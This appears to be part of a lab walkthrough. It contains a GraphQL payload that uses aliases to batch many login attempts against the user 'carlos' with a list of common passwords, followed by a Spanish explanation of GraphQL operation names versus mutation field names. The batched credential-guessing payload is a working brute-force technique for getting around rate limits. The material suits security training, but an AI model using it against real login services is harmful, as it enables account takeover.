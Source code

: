 ``` json
  bruteforce93: login(input: { password: "mobilemail", username: "carlos" }) {
    token
    success
  }
  bruteforce94: login(input: { password: "mom", username: "carlos" }) {
    token
    success
  }
  bruteforce95: login(input: { password: "monitor", username: "carlos" }) {
    token
    success
  }
  bruteforce96: login(input: { password: "monitoring", username: "carlos" }) {
    token
    success
  }
  bruteforce97: login(input: { password: "montana", username: "carlos" }) {
    token
    success
  }
  bruteforce98: login(input: { password: "moon", username: "carlos" }) {
    token
    success
  }
  bruteforce99: login(input: { password: "moscow", username: "carlos" }) {
    token
    success
  }
}

```


¡Entendido! Vamos a aclarar la diferencia entre el **nombre de la operación** y el **nombre del campo mutación** dentro de GraphQL. Este es un punto que puede ser confuso al principio, pero te lo explico paso a paso:

---

### **1. Nombre de la operación (`mutation login { ... }`)**
- **¿Qué es?**
  Es el nombre que asignas a la operación completa (en este caso, a la mutación) para identificarla. Esto se coloca justo después de la palabra clave `mutation`.

- **¿Para qué sirve?**
  Ayuda al cliente o al servidor a identificar qué operación estás ejecutando, especialmente cuando envías múltiples operaciones en una misma solicitud. 

- **¿Es obligatorio?**
  - **No siempre.** Si no tienes varias operaciones en una sola solicitud, puedes omitir el nombre de la operación (se convierte en una operación **anónima**).
  - Sin embargo, algunos servidores o clientes (como los que usan `operationName`) requieren un nombre de operación explícito.

---